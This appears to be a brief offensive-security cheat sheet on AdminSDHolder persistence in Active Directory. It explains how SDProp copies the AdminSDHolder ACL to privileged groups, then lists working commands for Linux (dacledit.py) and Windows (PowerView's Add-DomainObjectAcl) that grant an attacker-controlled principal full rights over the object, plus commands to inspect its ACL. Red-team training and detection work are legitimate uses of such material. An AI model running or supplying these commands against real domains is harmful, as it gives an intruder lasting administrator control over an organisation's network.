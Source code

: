 # AdminSDHolder

### The Access Control List (ACL) of the AdminSDHolder object is used as a template to copy permissions to all "protected groups" in Active Directory and their members. Protected groups include privileged groups such as Domain Admins, Administrators, Enterprise Admins, and Schema Admins.

### If you modify the permissions of AdminSDHolder, that permission template will be pushed out to all protected accounts automatically by SDProp (in an hour). E.g: if someone tries to delete this user from the Domain Admins in an hour or less, the user will be back in the group.

### Once sufficient privileges are obtained, attackers can abuse AdminSdHolder to get persistence on the domain by modifying the AdminSdHolder object's DACL. 

## Linux

 - dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target-dn 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' 'domain'/'user':'password'

### Inspection

 - dacledit.py -action 'read' -target-dn 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' 'domain'/'user':'password'

## Windows

 - Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' -PrincipalIdentity spotless -Verbose -Rights All

### Inspection

 - Get-DomainObjectAcl -SamAccountName "AdminSdHolder" -ResolveGUIDs
